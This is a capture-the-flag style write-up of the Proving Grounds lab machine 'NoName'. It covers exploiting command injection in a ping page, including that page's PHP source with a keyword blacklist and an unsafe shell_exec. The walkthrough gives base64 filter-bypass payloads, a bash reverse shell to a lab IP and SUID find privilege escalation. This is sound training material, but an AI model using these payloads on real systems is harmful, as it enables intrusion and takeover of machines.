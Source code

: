 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil.png
---
```





# Noname


## NMAP

PORT   STATE SERVICE
80/tcp open  http


## Port 80 Enumeration

- Enum with Nikto and Gobuster
- Nikto did not return anthing interesting
- Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures no functionality
    - `superadmin.php` looks like we can ping any IP address 



![admin](assets\images\noname-pg\2022-07-27-15-23-21.png)

- Checking burp request 

![](2022-07-27-15-42-17.png)

- Trying command injection with `sleep` command.
    - `;` `&` did not work but `|` worked

![](2022-07-27-15-43-36.png)

- As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command for five seconds.

- Tried some basic reverse shell. but did not work.
- tried `ls` and also did not return anything
- tried `cat superadmin.php`
```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

- looks like there are certain blacklisted characters and commands. that's why we can't `ls` and `cat /etc/passwd`
- tried echoing a base64 encoded command then pipe to `base64 -d` then to `bash`
    - `echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`

![](2022-07-27-16-26-33.png)

- and it worked.

- tried with a reverse shell `bash -i >& /dev/tcp/192.168.49.210/80 0>&1`
    - `|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash` did not work for some reason, when `bash` is removed at the end it gives me the following result
           
        ![](2022-07-27-16-48-44.png)

        - looks like it is not printing the whole base64 encoded command.

    - tried double `base64` encoding and it worked `|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`

        ![](2022-07-27-16-46-09.png)

## Privesc


- we are `www-data` 
- checking `SUIDs` I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](2022-07-27-16-52-16.png)

- `find . -exec /bin/sh \; -quit`

- and we are root.

![](2022-07-27-16-54-22.png)


